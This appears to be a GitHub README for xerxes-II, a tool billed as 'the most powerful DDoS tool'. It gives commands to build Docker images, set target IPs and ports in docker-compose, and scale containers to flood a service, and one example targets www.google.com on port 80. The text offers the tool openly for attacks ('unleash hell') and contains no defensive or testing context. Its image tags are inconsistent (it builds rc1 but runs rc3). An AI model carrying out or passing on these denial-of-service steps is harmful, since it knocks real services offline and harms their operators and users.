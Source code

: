 # xerxes-ii
---
XERXES-ii is the most powerful  DDoS tool 

## Usage
### DDOS using Docker
*NOTE: Docker and DockerCompose must be installed on the host*
To unleash hell on a particular service 
- Clone the repository`$ git clone https://github.com/ahab94/xerxes-II.git`
- Change Directory to the xerxes-II `$ cd xerxes-II`
- Build a docker image image`$ sudo docker build . -t xerxes-ii:rc1`
- In docker-compose.yml define the IP and Port you want to do DDOS on for example.
```YAML
version: '2'
services:
  xerxes-ii-some-service-1:
    image: xerxes-ii:rc3
    environment:
      - IP=some-service-1-ip-or-hostname
      - PORT=some-service-1-port

  xerxes-ii-some-service-2:
    image: xerxes-ii:rc3
    environment:
      - IP=some-service-2-ip-or-hostname
      - PORT=some-service-2-port

  xerxes-ii-some-service-3:
    image: xerxes-ii:rc3
    environment:
      - IP=some-service-3-ip-or-hostname
      - PORT=some-service-3-port
```
- Spawn N number of containers for DDOS `$ sudo docker-compose up --scale xerxes-ii-some-service-1=<number-of-nodes-for-DDOS>`

### Spawning container for dev env
- Build a docker image image`$ sudo docker build . -t xerxes-ii:rc1`
- Initiate xerxes-II container `$ sudo docker run -e IP=www.google.com -e PORT=80 -it xerxes-ii:rc3`

### Spawning process for dev env
- Compile and build xerxes-II `$ gcc -o xerxes-II xerxes-II.c`
- Spawn the xerxes-II process `$ bash entrypoint-to-hell.sh`
